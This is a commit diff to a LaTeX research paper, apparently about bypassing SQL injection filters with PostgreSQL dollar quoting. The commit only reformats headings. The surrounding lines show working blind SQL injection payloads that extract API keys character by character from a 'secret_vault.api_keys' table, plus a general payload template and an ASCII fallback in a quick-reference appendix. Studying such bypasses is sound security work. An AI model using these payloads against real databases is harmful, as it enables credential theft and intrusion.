

Before and after one commit to JRBusiness/Dollar-Quote-Desync, a LaTeX paper (Dollar_Quote_Bypass.tex): two parts of pages 5 and 11 of 11, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Fix formatting issues in payload examples and references in the documentation

```diff
--- a/Dollar_Quote_Bypass.tex
+++ b/Dollar_Quote_Bypass.tex
@@ -304,12 +304,14 @@ multiple rows (e.g., listing multiple schema or table names). Without
 \lstinline|LIMIT 1|, a subquery returning multiple rows will cause a runtime error
 and prevent extraction.
 
-\paragraph{Correct payload:}
+\paragraph{Correct payload:}:
+
 \begin{lstlisting}
 (SELECT substr(secret,1,1) FROM secret_vault.api_keys WHERE service LIKE $_$stripe$_$) = w
 \end{lstlisting}
 
-\paragraph{Broken payload (internal \texttt{=} confuses split\_part):}
+\paragraph{Broken payload (internal \texttt{=} confuses split\_part):}:
+
 \begin{lstlisting}
 (SELECT substr(secret,1,1) FROM secret_vault.api_keys WHERE service = $_$stripe$_$) = w
 \end{lstlisting}
@@ -687,12 +689,14 @@ format() function.} \url{https://www.postgresql.org/docs/17/} (accessed
 \appendix
 \section{Quick Reference}
 
-\paragraph{Payload Template.}
+\paragraph{Payload Template.}:
+
 \begin{lstlisting}
 (SELECT substr(COLUMN,POSITION,1) FROM SCHEMA.TABLE WHERE KEY LIKE $_$VALUE$_$) = CHAR
 \end{lstlisting}
 
-\paragraph{ASCII Fallback for Stripped Characters.}
+\paragraph{ASCII Fallback for Stripped Characters.}:
+
 \begin{lstlisting}
 (SELECT ascii(substr(COLUMN,POSITION,1)) FROM SCHEMA.TABLE WHERE KEY LIKE $_$VALUE$_$) = 45
 \end{lstlisting}
```
Also changed, not shown: Dollar_Quote_Bypass.pdf.
